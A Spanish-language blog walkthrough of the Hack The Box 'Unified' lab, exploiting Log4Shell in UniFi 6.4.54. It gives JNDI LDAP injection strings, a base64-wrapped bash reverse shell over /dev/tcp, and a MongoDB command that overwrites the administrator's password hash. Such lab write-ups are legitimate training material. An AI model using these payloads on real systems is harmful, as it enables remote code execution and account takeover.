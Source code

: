 ```yaml
---
layout: post
title: "Write Up Unified. "
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Genin,Linux,HTB,Web,Vulnerability-Assessment,Database,Injection,Custom-Applications,Outdated-Software,MongoDB,Java,Reconnaissance,Clear-Text-Credentials,Default-Credentials,Code-Injection,eJPTv2]
image:
  path: /assets/img/unified/unified.png
---
```


***

<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance

### nmap

Utilizando **nmap**, comprobamos qué puertos están abiertos.

```bash
nmap --open -p- -Pn -n -T4 -vvv -n 10.129.130.89 -oN allports
```

![list](/assets/img/oopsie/nmap.png){:.lead width="800" height="100" loading="lazy"}

***

### Services and Versions

```bash
nmap -sVC -Pn -n -p22,6789,8080,8443,8843,8880 10.129.130.89 -oN target
```

![list](/assets/img/oopsie/SERVICE.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis 

### HTTP TCP-8080 => 8443

Tenemos varios puertos abiertos pero el que vamos a revisar es el 8080 pero este a su ves nos redirigue al 8443 por lo que nos vemos obligados a tratar este servicio que se llamada **Unifi** que esta en su version 6.4.54 el cual podemos buscar en internet un exploit, pero esta ves lo vamos hacer de una forma mas manual, por lo que primero vamos a interceptar la comunicacion con **Burpsuite** a la hora de loggearnos, como no tenemos credenciales validas bvaamos a usar unas cualquiera, y una ves en bursuite vamos aprobar el campo vulnerable con `${jndi:ldap://10.129.130.89/test}`.

> Es una vulnerabilidad crítica en Log4J, conocida como CVE-2021-44228 o Log4Shell. Esta vulnerabilidad permite la ejecución remota de código en aplicaciones que utilizan Log4J, lo que puede llevar a ataques y compromisos de seguridad significativos. La vulnerabilidad de Log4J ha generado una gran atención y preocupación en la comunidad de seguridad informática, y se han tomado medidas urgentes para solucionarla y mitigar su impacto.


![list](/assets/img/unified/8443.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Uso de Wappalizer.


![list](/assets/img/unified/intercep.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
El parametro vulnerablees remenber.


Si nos ponemos a la escucha con netcat y si la solicitud hace que el servidor se conecte de vuelta a nosotros, entonces hemos verificado que la aplicación es vulnerable.

Después de hacer clic en **enviar**, el panel de **Respuesta** mostrará la respuesta de la solicitud. La salida nos muestra un mensaje de **error** que indica que la carga útil es inválida, pero a pesar del mensaje de error, la carga útil se está ejecutando en realidad.

Procedamos a iniciar tcpdump en el puerto 389, que monitoreará el tráfico de red para las conexiones **LDAP**.

Abre otra terminal y escribe:

```bash
sudo tcpdump -i eth0 -n port 389
```


![list](/assets/img/unified/burp-request.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Con esto ya tenemos coneccion.

***
## Exploitation

Para construir una carga útil que podamos enviar al servidor y que nos proporcione **Ejecución Remota de Código** en el sistema vulnerable, tendremos que instalar **Open-JDK** y **Maven** en nuestro sistema.


```bash
sudo apt-get update && apt-get install openjdk-11-jdk && apt-get install maven -y
```


Open-JDK es el kit de desarrollo de Java que se utiliza para construir aplicaciones Java. Por otro lado, Maven es un Entorno de Desarrollo Integrado (IDE) que se puede utilizar para crear un proyecto estructurado y compilar nuestros proyectos en archivos jar, estas aplicaciones también nos ayudarán a ejecutar la aplicación [Java rogue-jndi] que debemos clonar el repositorio, que inicia un servidor LDAP local y nos permite recibir conexiones desde el servidor vulnerable y ejecutar código malicioso.

[Java rogue-jndi]: https://github.com/veracode-research/rogue-jndi

Clonemos el repositorio correspondiente y construyamos el paquete utilizando Maven:


```bash
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```


Esto creará un archivo **.jar** en el directorio **rogue-jndi/target/** llamado **RogueJndi-1.1.jar**. Ahora podemos construir nuestra carga útil para pasarla a la aplicación Java RogueJndi-1.1.jar.

Segundo debemos construir una carga útil que será responsable de proporcionarnos una shell en el sistema afectado. Codificaremos la carga útil en **Base64** para evitar problemas de codificación.


```bash
echo 'bash -c bash -i >&/dev/tcp/10.129.130.89/443 0>&1' | base64
 ```


![list](/assets/img/oopsie/upload.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Creamos el payload.


Tercero nos ponemos a la escucha con netcat en el puerto 443 para recibir la shell y ejecutamos el siguiente comando.


```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,A qui va tu hash} |{base64,-
d}|{bash,-i}" --hostname "10.10.120.89"
 ```


![list](/assets/img/unified/unifi.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Con esto ya estamos a la escucha con el servidor y con el listener ahora debemos volber a Burpsuite.


Volviendo a nuestra solicitud POST interceptada, cambiemos la carga útil a `${jndi:ldap://10.129.130.89/o=tomcat}},` y luego pulsamos en enviar, u una vez que recibimos la salida del servidor Rogue, se genera una shell en nuestro listener de Netcat.


{.note}
La flag esta en el directorio del usuario michael.


***

## Privilege Escalation

Como en otra ocasiones subiremos el binario LimEnum.sh, o el comado ps aux para ver los procesos del servido y eureka encontramos un proceso de mongoque se está ejecutando en el sistema objetivo en el puerto **27117**.
Interactuemos con el servicio de MongoDB utilizando la utilidad de línea de comandos de mongo e intentemos extraer la contraseña del administrador. 


![list](/assets/img/unified/mongo.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Proceso.


Una rápida búsqueda en Google utilizando las palabras clave **UniFi Default Database** muestra que el nombre predeterminado de la base de datos para la aplicación UniFi es **ace**.


```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`
```


![list](/assets/img/unified/mod.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Esto nos devuelve un hash del usuario Administrador.


La salida revela un hash de contraseña se encuentra en la variable **x_shadow**, pero en este caso no se puede descifrar con ninguna utilidad de descifrado de contraseñas. En su lugar, podemos cambiar el hash de contraseña de **x_shadow** con nuestro propio hash creado para reemplazar la contraseña del administrador y autenticarnos en el panel administrativo. Para hacer esto, podemos utilizar la utilidad de línea de comandos **mkpasswd**.


![list](/assets/img/unified/mk.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Creamos un hash de contraseña **Password1234**.


Tambien loara comprobar que estamos ahaciendo bien podemos ver los dato del administrado con el siguiente comado.


```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`
```


![list](/assets/img/unified/admin.png){:.lead width="800" height="100" loading="lazy"}

Ahora con el hash que creamos reemplazamos por el de administrador que no sabemos.


```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("tu hash aki")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
```


![list](/assets/img/unified/mod.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Esto cambiara la contraseña a **Password1234** podemos volver a  comprovar para aseguranos que si cambio.


Ahora podemos ir a la web e introducir esas credenciales en el formulario de login y **Voilà** tenemos acceso ya aqui es husmear la web en configuracion encontramos una credenciales que probaremos en el servicio **ssh**.


![list](/assets/img/unified/login.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Las credenciales son validads.


```bash
ssh root@10.129.130.89
```


![list](/assets/img/unified/flagr.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La flag esta en el escritorio del usuario root.



***

```bash
🎉 Felicitaciones ya has comprometido Unified de HackTheBox 🎉
```
{:.centered}

***

Back to [Starting-Point](2023-02-02-Starting-Point.md){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eJPTv2 ](2023-06-02-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}